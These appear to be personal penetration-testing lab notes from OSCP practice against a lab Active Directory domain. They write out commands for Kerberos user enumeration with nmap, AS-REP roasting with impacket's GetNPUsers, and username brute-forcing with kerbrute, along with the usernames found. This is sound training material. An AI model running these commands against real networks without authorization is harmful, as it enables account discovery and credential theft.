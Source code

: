 Grab example command and fill in the script args
```
nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='oscp.exam' 192.168.140.100
```
	| krb5-enum-users: 
	| Discovered Kerberos principals
	|_    administrator@oscp.exam

![[Pasted image 20231219125100.png]]

administrator@oscp.exam

save to users.txt

Now with a username I can try to get a challenge hash from the windows network for cracking

Searching for ways to extract hashes from login attempts I find impacket has a good suite of tools

Checked the different impacket tools and found this which specifically said I don't need a credential
```
GetNPUsers.py contoso.com/ -no-pass -usersfile users.txt
```
![[Pasted image 20231219130224.png]]
	Says the preauth is not set
![[Pasted image 20231219130413.png]]

Now to try and grab the hash for cracking
![[Pasted image 20231219130359.png]]
```sh
impacket-GetNPUsers oscp.exam/ -dc-ip 192.168.140.100 -usersfile users -no-pass -format john -outputfile hash
```
	No dice

Try bruteforce with kerbrute
https://github.com/ropnop/kerbrute

editing /etc/hosts

![[Pasted image 20231219131716.png]]


using seclist names I'm testing valid users in addition to administrator
https://github.com/danielmiessler/SecLists/blob/master/Usernames/Names/names.txt

![[Pasted image 20231219131937.png]]
	2023/12/19 13:20:57 >  [+] VALID USERNAME:	 kate@oscp.exam
	2023/12/19 13:20:57 >  [+] VALID USERNAME:	 nate@oscp.exam
	2023/12/19 13:20:57 >  [+] VALID USERNAME:	 sam@oscp.exam

![[Pasted image 20231219132258.png]]
